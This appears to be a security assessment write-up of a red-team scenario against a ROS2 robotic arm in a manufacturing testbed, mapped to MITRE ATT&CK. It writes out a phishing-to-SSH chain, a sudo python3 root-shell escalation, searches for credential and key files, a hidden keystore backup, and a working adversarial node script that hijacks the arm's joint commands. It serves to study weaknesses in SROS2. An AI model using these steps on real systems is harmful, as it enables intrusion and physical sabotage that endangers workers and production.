

# Scenario 1 — ROS2 Command Injection via SROS2 Bypass

**Target:** Defect correction process (robotic arm control) — Edge/Physical layer  
**Objective:** Inject malicious movement commands into ROS2 topics to manipulate robotic arm trajectories  
**Outcome:** Robotic arm locked in holding position, defect correction halted, denial-of-service achieved  
**Security Assurance Score:** 4.66 / 10 (Moderate Security)

---

## Attack Chain Summary

```
Spearphishing (LinkedIn OSINT)
    ↓
SSH initial access (valid credentials obtained via phishing)
    ↓
Python sudo privilege escalation → root (GTFOBins)
    ↓
Discovery: enumerate ROS2 nodes, topics, SROS2 config
    ↓
Credential access: locate or forge SROS2 permission files (expired certs)
    ↓
SROS2 bypass: Permission File Replacement + Outdated Node Service
    ↓
Unauthorised ROS2 topic publish via adversarial node
    ↓
Robotic arm trajectory manipulation → holding position
```

---

## Phase-by-Phase Walkthrough

### Phase 1: Reconnaissance (TA0043)

Starting from zero knowledge of the target environment, the attacker performs:

```bash
# Port scanning to identify SSH exposure
nmap -sC -sV -p 22 192.168.100.0/24

# OSINT: LinkedIn, company websites to identify IT administrators with SSH access
# Target: Developer Group accounts (robotics engineers with sudo Python/git privileges)
```

**Techniques:** Active Scanning (T1595, T1595.001), Gather Victim Information (T1589, T1589.002), Spearphishing for Information (T1598.002, T1598.003)

**Finding:** Port 22 open on Machine 1 (192.168.100.5). Developer group accounts identified via LinkedIn — Robotics Engineers with SSH access.

---

### Phase 2: Initial Access (TA0001)

```bash
# After credentials obtained via spearphishing:
ssh user2@192.168.100.5
# Login successful as developer group member
```

**Techniques:** Valid Accounts (T1078), Phishing (T1566), Spearphishing Attachment (T1566.001)

**Finding:** `user2` belongs to `developer` group — has sudo privileges for Python and git.

---

### Phase 3: Privilege Escalation (TA0004)

```bash
# Check sudo permissions
sudo -l
# Output:
# User user2 may run the following commands:
#     (ALL : ALL) /usr/bin/git, /usr/bin/python3

# Escalate via Python (GTFOBins technique)
sudo python3 -c 'import os; os.system("/bin/sh")'
# id
# uid=0(root) gid=0(root) groups=0(root)
```

**Technique:** Abuse Elevation Control Mechanism (T1548), Sudo and Sudo Caching (T1548.003)

**Key vulnerability:** Developer group granted unrestricted sudo for `/usr/bin/python3` — direct root escalation via GTFOBins.

---

### Phase 4: Discovery & Persistence (TA0007, TA0003)

```bash
# Enumerate ROS2 environment
ros2 node list
ros2 topic list
ros2 topic info /px150/commands/joint_single

# Discover SROS2 configuration and permission files
find / -name "*.xml" -path "*/sros2/*" 2>/dev/null
find / -name "*.pem" 2>/dev/null

# Enumerate network and user accounts
cat /etc/passwd
netstat -tulnp
```

**Finding:** SROS2 is deployed but permission files are accessible. The `developer` group has file system access to SROS2 keystore directories. Two critical SROS2 vulnerabilities discovered:

1. **Permission File Replacement** — expired permission files can be backed up and reused after revocation
2. **Outdated Node Service** — a running node does not apply updated security policies until restarted; a malicious node can refuse to restart

---

### Phase 5: Credential Access & Defense Evasion (TA0006, TA0005)

The attacker does not find unprotected private keys. Instead:

- Locates expired SROS2 permission files (`.xml` and `.pem` certificates)
- Backs them up: `cp -r /path/to/sros2_keystore /tmp/.hidden_backup`
- Leverages **Permission File Replacement** to restore expired permissions after revocation
- Exploits **Outdated Node Service** to prevent legitimate nodes from restarting with updated policies

**Techniques:** Unsecured Credentials (T1552), Private Keys (T1552.004), Steal or Forge Authentication Certificates (T1649), Hijack Execution Flow (T1574), Impair Defenses (T1562)

---

### Phase 6: Execution — Adversarial Node Injection (TA0002)

The attacker deploys an adversarial ROS2 node using the expired certificates, gaining unauthorised publish access to `/px150/commands/joint_single`:

```python
#!/usr/bin/env python3
import rclpy
from rclpy.node import Node
from interbotix_xs_msgs.msg import JointSingleCommand

class AdversarialNode(Node):
    def __init__(self):
        super().__init__('adversarial_node')
        self.publisher_ = self.create_publisher(
            JointSingleCommand, '/px150/commands/joint_single', 10
        )
        self.joint_name = 'waist'
        self.target_position = 1.0   # Forces arm to fixed holding position
        self.timer_period = 0.05
        self.timer = self.create_timer(self.timer_period, self.hold_position)

    def hold_position(self):
        msg = JointSingleCommand()
        msg.name = self.joint_name
        msg.cmd = self.target_position
        self.publisher_.publish(msg)
```

**Technique:** Command and Scripting Interpreter (T1059), Python (T1059.006)

**Result:** Robotic arm forced to holding position at `waist = 1.0 rad`, overriding legitimate defect correction trajectory. Normal motion completely suppressed.

---

### Phase 7: Impact (TA0040)



**Direct impact:**
- Defect correction halted — robotic arm locked in place
- Production line unable to execute corrections
- Effective denial-of-service on the physical correction process

**Secondary impact:**
- Safety risk: unexpected robotic arm movement in manufacturing environment
- Financial: defective products pass quality control uncorrected, increased rework cost

**Techniques:** Data Manipulation (T1565, T1565.001, T1565.002, T1565.003), Endpoint Denial of Service (T1499, T1499.002, T1499.003)

---

## SROS2 Vulnerability Details

See [vulnerabilities.md](vulnerabilities.md) for full technical analysis of both SROS2 vulnerabilities exploited.

## MITRE ATT&CK Full Mapping

See [mitre-attack-mapping.md](mitre-attack-mapping.md) for the complete TTP table.

## Security Assurance Metrics

See [security-metrics.md](security-metrics.md) for quantitative scoring (RM, VM, AM calculations).

---

## Proof

The normal robotic arm motion executes a continuous loop between two Cartesian waypoints (P1 → grasp → P2 → release). Under attack, the arm is forced to a static holding position at `(x=0.1937, y=0.3017, z=0.2546)`, completely halting the defect correction workflow.

Quantitative impact on the security posture: `AM = RM − VM = 15 − 16.5 = −1.5` (normalised: **4.66/10**).

Negative assurance metric confirms vulnerabilities outweigh implemented controls.
